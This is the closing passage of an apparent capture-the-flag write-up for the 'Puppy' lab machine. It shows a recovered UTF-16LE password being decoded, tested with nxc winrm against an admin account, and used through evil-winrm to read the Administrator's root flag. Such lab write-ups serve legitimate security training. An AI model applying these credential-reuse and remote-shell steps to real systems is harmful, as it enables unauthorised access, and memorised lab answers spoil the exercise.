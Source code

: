 This password is in UTF-16LE format. We need to convert it to UTF-8. For that we execute,
```
echo -ne 'F\x00i\x00v\x00e\x00t\x00h\x00C\x00h\x00i\x00p\x00O\x00n\x00I\x00t\x00s\x00W\x00a\x00y\x002\x000\x002\x005\x00!\x00' | iconv -f UTF-16LE -t UTF-8
```

This reveals the password - `FivethChipOnItsWay2025!`.

### STEPH.COOPER_ADM

We now try this password against STEPH.COOPER_ADM account and hope that it works.
```
nxc winrm puppy.htb -u STEPH.COOPER_ADM -p 'FivethChipOnItsWay2025!'
```
The **login succeeds**, confirming our escalation path.

Since STEPH.COOPER_ADM is a local admin and a part of the ADMINISTRATORS group, we can access all the directories on the system (including C:/Users/Administrator).

To obtain the root flag,
```
evil-winrm -i puppy.htb -u STEPH.COOPER_ADM -p 'FivethChipOnItsWay2025!' 
```
And then,
```
type C:/Users/Administrator/Desktop/root.txt
```

This concludes the Puppy Machine.